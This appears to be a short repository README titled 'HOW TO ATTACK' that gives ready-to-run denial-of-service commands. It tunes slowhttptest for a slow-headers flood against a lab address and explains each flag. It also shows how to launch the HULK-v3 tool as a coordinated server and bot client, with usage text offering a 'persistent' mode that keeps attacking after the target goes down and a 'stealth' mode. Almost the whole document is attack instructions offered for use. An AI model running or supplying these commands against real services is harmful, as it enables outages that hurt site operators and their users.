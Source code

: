 # HOW TO ATTACK

## Slowhttptest
```
slowhttptest -H -g -c 5260 -i 10 -r 30 -t GET -u http://10.100.0.2:3000/ -x 24 -p 3
```

    -H: Enable slow headers attack
    -g: Generate headers randomly
    -c 5260: Number of connections to create
    -i 10: Interval between follow-up data in seconds
    -r 30: Number of requests per connection
    -t GET: HTTP method to use (GET in this case)
    -u http://10.100.0.2:3000/: Target URL to attack
    -x 24: Number of simultaneous connections
    -p 3: Number of child processes to fork

## hulk
```
python3 HULK-v3/hulk_launcher.py server -p 3000 http://100.10.0.2:3000
```
```
python3 HULK-v3/hulk_launcher.py client -n 10
```
### Server :computer:
```
usage: hulk_launcher.py server [-h] [-p PORT] [-m MAX_MISSILES] [--persistent] [--gui] target

The Hulk Server Launcher

positional arguments:
target                the target url.

options:
-h, --help            show this help message
-p PORT, --port PORT  the Port to bind the server to.
-m MAX_MISSILES, --max_missiles MAX_MISSILES the maximum number of missiles to connect to.
--persistent          keep attacking even after target goes down.
--gui                 run on the GUI mode.
```

### Client :space_invader:
```
usage: hulk_launcher.py client [-h] [-r ROOT_IP] [-p ROOT_PORT] [-n NUM_PROCESSES] [-s]

The Hulk Bot Launcher

options:
-h, --help            show this help message
-r ROOT_IP, --root_ip ROOT_IP                        IPv4 Address where Hulk Server is running.
-p ROOT_PORT, --root_port ROOT_PORT                  Port where Hulk Server is running.
-n NUM_PROCESSES, --num_processes NUM_PROCESSES      Number of Processes to launch.
-s, --stealth         Stealth mode.
```